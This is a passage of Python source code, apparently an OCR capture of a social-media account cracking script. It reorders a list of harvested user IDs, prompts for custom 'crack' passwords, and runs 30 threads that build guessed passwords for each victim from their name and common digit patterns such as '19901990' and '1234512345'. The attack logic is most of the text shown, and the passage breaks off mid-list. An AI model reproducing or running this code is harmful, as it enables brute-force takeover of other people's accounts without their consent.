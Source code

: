 		muda=[]
		for bacot in sorted(id):
			muda.append(bacot)
		bcm=len(muda)
		bcmi=(bcm-1)
		for xmud in range(bcm):
			id2.append(muda[bcmi])
			bcmi -=1
	elif hu in ['1','01']:
		for bacot in id:
			xx = random.randint(0,len(id2))
			id2.insert(xx,bacot)
	else:
		print('\x1b[1;91m\x1b[1;96m\x1b[1;97m\x1b[1;91mNOT SELECT')
		exit()
	
	print('\x1b[1;93m1. METHODE MOBILE')
	print('')
	hc = input('\x1b[1;93mCHOICE > \x1b[1;93m')
	if hc in ['1','01']:
		method.append('mobile')
	else:
		method.append('mobile')
	pwplus=input('\033[33mAUTO PASS [ T ] ')
	if pwplus in ['00','00']:
		pwpluss.append('ya')
		cetak(nel('[[cyan]•[white]] ENTER 6 CHARECTERS FOR CRACK PASS\n[[cyan]•[white]] LIKE --->[green] zaxo123,kurd123,hama1234[white] '))
		pwku=input('\x1b[1;93m[\x1b[1;92m+\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mPassword > \x1b[1;93m')
		pwkuh=pwku.split(',')
		for xpw in pwkuh:
			pwnya.append(xpw)
	else:
		pwpluss.append('no')
	passwrd()
	exit()
def passwrd():
	print(f"\x1b[1;97m------------------------------------------------------------")
	print(f"\x1b[1;97m[+] DATE : \x1b[1;97m{ha}\x1b[1;97m/\x1b[1;97m{bu}\x1b[1;97m/\x1b[1;97m{ta} ")
	print(f"\x1b[1;97m------------------------------------------------------------")
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append('19901990')
					pwv.append('19911991')
					pwv.append('19921992')
					pwv.append('19931993')
					pwv.append('19941994')
					pwv.append('19951995')
					pwv.append('19961996')
					pwv.append('19971997')
					pwv.append('19981998')
					pwv.append('19991999')
					pwv.append('1234512345')
					pwv.append('1234554321')
					pwv.append('1122334455')
					pwv.append('123456654321')